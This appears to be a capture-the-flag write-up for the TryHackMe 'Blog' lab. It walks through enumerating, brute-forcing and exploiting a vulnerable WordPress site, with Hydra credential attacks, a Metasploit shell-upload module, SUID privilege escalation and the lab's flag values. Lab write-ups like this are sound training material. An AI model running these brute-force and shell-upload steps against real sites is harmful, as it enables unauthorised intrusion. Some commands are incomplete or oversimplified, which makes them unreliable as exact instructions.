 
## Wordpress-Security

Application Security using Nmap, Smbclient, Gobuster, and WPSCAN for enumeration, vulnerability analysis, and exploitation.

## Background

The **Blog** lab on TryHackMe provides a vulnerable WordPress site set up by "Billy Joel" as the target. The primary objective of the lab was to uncover two flags: `user.txt` and `root.txt`. This exercise required leveraging reconnaissance, enumeration, exploitation, and privilege escalation techniques. The lab also focused on identifying misconfigurations in WordPress and exploiting these weaknesses to gain administrative and root access.

Through this lab, I enhanced my knowledge of web application vulnerabilities, practiced privilege escalation techniques, and refined my use of various penetration testing tools.

---

## Step-by-Step Walkthrough

### Step 1: Configuring the Environment

#### Adding `blog.thm` to `/etc/hosts`
To resolve `blog.thm` to the target machine's IP address, I modified the `/etc/hosts` file:
```bash
echo "10.10.120.185 blog.thm" >> /etc/hosts
```

---

### Step 2: Scanning and Enumeration

#### 1. Nmap Scan
I performed a network scan to identify open ports and services:
```bash
nmap -sC -sV -oN nmap_scan blog.thm
```
**Findings:**
- Port 80: HTTP (WordPress)
- Port 445: SMB

#### 2. SMB Enumeration
Using `smbclient`, I enumerated accessible SMB shares:
```bash
smbclient -L \\blog.thm
```
I then connected to the `BillySMB` share and downloaded all files:
```bash
smbclient \\blog.thm\BillySMB
mget *
```
The files contained images and text but yielded no actionable information.

---

### Step 3: Web Application Enumeration

#### 1. Directory Enumeration with Gobuster
To discover hidden directories on the web application, I used Gobuster:
```bash
gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
```
**Discovered Directories:**
- `/admin`
- `/wp-json`
- `/wp-content`

#### 2. WordPress Enumeration with WPSCAN
I enumerated the WordPress site for users and vulnerabilities:
```bash
wpscan --url http://blog.thm --enumerate u
```
**Results:**
- WordPress version: `5.0`
- Users: `kwheel`, `bjoel`

---

### Step 4: Gaining Admin Access

#### Brute-Force Attack on WordPress
Using Hydra, I brute-forced the WordPress admin credentials:
```bash
hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
```
**Successful Credentials:**
- Username: `kwheel`
- Password: `password123`

---

### Step 5: Exploiting WordPress

#### 1. Identifying Vulnerabilities
From the admin dashboard, I confirmed the WordPress version as `5.0` and searched Exploit-DB for vulnerabilities:
```bash
searchsploit wordpress 5.0
```
An authenticated RCE vulnerability was identified.

#### 2. Exploiting with Metasploit
Using Metasploit, I exploited the vulnerability to gain a reverse shell:
```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOST blog.thm
set USERNAME kwheel
set PASSWORD password123
set TARGETURI /wp-admin
run
```

---

### Step 6: Privilege Escalation to Root

#### 1. Identifying SUID Files
I enumerated SUID binaries to identify potential privilege escalation vectors:
```bash
find / -perm -4000 2>/dev/null
```
**Key Finding:** A binary named `checker`.

#### 2. Exploiting the SUID Binary
Executing the `checker` binary escalated my privileges to root:
```bash
./checker
```

---

### Step 7: Retrieving the Flags

#### Retrieving `user.txt`
I navigated to the home directory of `kwheel` and retrieved the flag:
```bash
cat /home/kwheel/user.txt
```
**Flag:** `9a0b2b618bef9bfa7ac28c1353d9f318`

#### Retrieving `root.txt`
With root access, I navigated to the `/root` directory and retrieved the second flag:
```bash
cat /root/root.txt
```
**Flag:** `c8421899aae571f7af486492b71a8ab7`

---

## Tools and Commands Utilized

- **Nmap**: Network scanning and service enumeration.
  ```bash
  nmap -sC -sV -oN nmap_scan blog.thm
  ```
- **Smbclient**: SMB share enumeration and file download.
  ```bash
  smbclient -L \\blog.thm
  smbclient \\blog.thm\BillySMB
  ```
- **Gobuster**: Directory enumeration.
  ```bash
  gobuster dir -u http://blog.thm -w /usr/share/wordlists/dirb/common.txt
  ```
- **Wpscan**: WordPress vulnerability and user enumeration.
  ```bash
  wpscan --url http://blog.thm --enumerate u
  ```
- **Hydra**: Brute-forcing WordPress credentials.
  ```bash
  hydra -L users.txt -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:invalid"
  ```
- **Metasploit**: WordPress exploitation.
  ```bash
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  ```
- **Find Command**: SUID binary enumeration.
  ```bash
  find / -perm -4000 2>/dev/null
  ```

---

## Key Lessons Learned

1. **Reconnaissance and Enumeration**:
   - Nmap, Gobuster, and WPSCAN are great tools for discovering attack surfaces.
2. **WordPress Vulnerabilities**:
   - Exploiting misconfigurations and leveraging RCE vulnerabilities.
3. **Privilege Escalation**:
   - Identifying and exploiting SUID binaries for root access.
4. **Using Metasploit Effectively**:
   - Automating exploitation tasks for efficiency.

---

## Conclusion

The Blog lab was a valuable exercise in web application penetration testing. It enhanced my skills in reconnaissance, vulnerability exploitation, and privilege escalation while reinforcing the importance of systematic enumeration and targeted attacks. 
